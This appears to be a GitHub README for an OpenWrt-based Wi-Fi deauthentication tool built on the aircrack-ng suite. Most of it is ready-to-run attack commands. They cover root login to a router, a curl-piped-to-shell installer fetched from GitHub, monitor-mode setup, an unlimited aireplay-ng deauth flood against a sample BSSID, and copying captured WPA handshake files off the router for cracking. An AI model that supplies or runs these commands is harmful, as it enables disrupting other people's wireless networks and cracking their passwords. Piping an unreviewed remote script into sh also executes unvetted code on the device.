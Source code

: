 # openwrt deauther based on airplay-ng
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

## Auto install 
```sh

opkg update && opkg install curl && curl https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````
## commands
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ifconfig mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format
